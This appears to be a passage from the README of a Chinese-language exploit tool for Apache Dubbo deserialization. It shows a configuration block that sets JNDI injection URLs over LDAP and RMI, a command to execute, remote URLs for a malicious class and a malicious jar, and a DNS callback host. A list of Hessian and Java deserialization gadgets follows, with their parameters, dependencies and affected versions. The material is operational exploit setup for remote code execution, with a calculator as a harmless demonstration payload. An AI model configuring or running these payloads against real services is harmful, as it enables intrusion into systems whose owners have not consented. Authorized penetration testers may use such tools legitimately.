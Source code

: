 ```
# 当小于jdk8u121，可以使用rmi服务进行JNDI注入攻击，
# jdk8u121～jdk8u191之间可以选择ldap服务替代，
# jdk8u191+需要使用tomcat-el依赖打法，或者使用gadget
JNDI=ldap://127.0.0.1:43658/Calc

#执行的shell命令
CMD=/System/Applications/Calculator.app/Contents/MacOS/Calculator
#或者 CMD=/bin/bash,-c,/System/Applications/Calculator.app/Contents/MacOS/Calculator

#Reference远程class代码url（在http服务器根存在一个Calc.class）
CODEBASE=http://127.0.0.1:80,Calc

#恶意jar包url（在http服务器根存在一个R.jar，jar包中存在一个恶意的class - Calc.class）
JAR=http://127.0.0.1:8080/R.jar,Calc

#DNS服务url
DNS=http://xxxx.ceye.io
```


## 4. gadget列表

    ---------------------------------------------------------------------------------------------------------
    1. 名称：resin
    2. 需要入参数量：2
    3. 参数说明：arg[0]=恶意类所在web服务器ip，例：http://127.0.0.1:8080/，arg[1]=恶意类类名，此处需要恶意类无包名编译出来的
    4. 序列化类型：hessian
    5. 依赖：com.caucho:quercus:*     dubbo版本<=2.7.5
    ---------------------------------------------------------------------------------------------------------
    1. 名称：rome
    2. 需要入参数量：1
    3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
    4. 序列化类型：hessian
    5. 依赖：com.rometools:rome:*     dubbo版本<=2.7.5
    ---------------------------------------------------------------------------------------------------------
    1. 名称：spring-aop
    2. 需要入参数量：1
    3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
    4. 序列化类型：hessian
    5. 依赖：org.springframework:spring-aop     受Spring版本限制
    ---------------------------------------------------------------------------------------------------------
    1. 名称：xbean
    2. 需要入参数量：2
    3. 参数说明：arg[0]=恶意类所在web服务器ip，例：http://127.0.0.1:8080/，arg[1]=恶意类类名，此处需要恶意类无包名编译出来的
    4. 序列化类型：hessian
    5. 依赖：org.apache.xbean:xbean-naming:*     dubbo版本<2.7.5
    ---------------------------------------------------------------------------------------------------------
    1. 名称：CommonsBeanutils
    2. 需要入参数量：1
    3. 参数说明：arg[0]=ldap引用外部class地址，例：ldap://127.0.0.1:43658/Calc（ldap协议的JNDI服务可打jdk8u191及以下版本，大于jdk8u191需要使用gadget字节码）
    4. 序列化类型：java
    5. 依赖：
    ---------------------------------------------------------------------------------------------------------
    1. 名称：CommonsBeanutils1
    2. 需要入参数量：1
    3. 参数说明：arg[0]=cmd
    4. 序列化类型：java
    5. 依赖：commons-beanutils:commons-beanutils:1.9.2
    ---------------------------------------------------------------------------------------------------------